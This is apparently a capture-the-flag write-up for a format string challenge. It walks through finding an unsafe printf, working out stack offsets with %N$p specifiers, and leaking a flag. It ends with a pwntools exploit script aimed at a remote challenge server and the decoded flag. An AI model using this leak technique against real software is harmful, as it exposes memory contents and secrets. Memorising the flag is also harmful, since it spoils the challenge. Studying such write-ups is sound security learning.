


## Overview
"I trusted the string, it revealed my secrets."

```
Arch:       amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
```

This challenge is very similar to a previous one. Read about it [here](https://jaiden2600.github.io/journal/2026-10-26-rstcon2026-leakylogger-writeup).

---
## Vulnerability
The program takes user input, then prints it back out. The vulnerability arises from an insecure `printf()` that has no format specifications and just directly prints the user input.



```
bird ➜ ~/Desktop/CTF $ ./fsvchall2 
Input: %p %p %p %p
0x7ffcf4e44ce0 0x7ffcf4e44ce0 0xa70252070252070 0x56321e41389c
```

---
## Exploit Development
In order to use this to read the flag that is stored into memory, we need to inspect the stack to figure out the correct offset required to reach the flag.

To do this, I added a secret.txt file on my local machine for testing with the contents of `AAAAAAAA`. Next, I input `AAAAAAAA` when prompted for input by the binary.

I then set a breakpoint after the input, and inspected the stack.



This gives 2 addresses, `0x7fffffffd980` which is where my input was stored, and `0x7fffffffdab0`, where the flag is stored. Subtracting the two gives the offset of `0x130` and dividing that by `8` results in `38`.

Since the first `printf` format specifiers are read from registers rather than the stack, `%1$p`–`%5$p` return register contents, and in this case `%6$p`-`%7$p` return junk on the stack  which you are able to find out during debugging, meaning the base to reach the provided input is `%8$p`. Adding that base to the 38 slot distance gives `8 + 38 = 46`, so `%46$p` would result in leaking the contents of the flag. This is why the raw `%p` output back in the Vulnerability section is junk, there are stack addresses, pointers, and even part of our own input string.

Since the flag will most likely be longer than 8 bytes, you must add `%47$p`, `%48$p`, etc.

---
## Final Pwn

```python
from pwn import *

BINARY = './fsvchall2'
elf = context.binary = ELF(BINARY, checksec=False)
context.terminal = ['gnome-terminal', '--']
context.log_level = "info"

def start():
    if args.REMOTE:
        return remote("18.226.103.146", 9002)    
    else:
        return process([BINARY])


io = start()

io.sendline(b"%46$p %47$p %48$p %49$p")
io.recvuntil("Input: ")
line = io.recvall()

# Optional flag decoding, can be done outside script
flag = b""
for token in line.split():
    value = int(token, 16) if token.startswith(b"0x") else 0
    flag += p64(value)

flag = flag.split(b"\x00")[0]
print("spooky{" + flag.decode() + "}")
```
```
spooky{f0rm4tStr1ngVulN3r4b1lityIsSc4rY}
```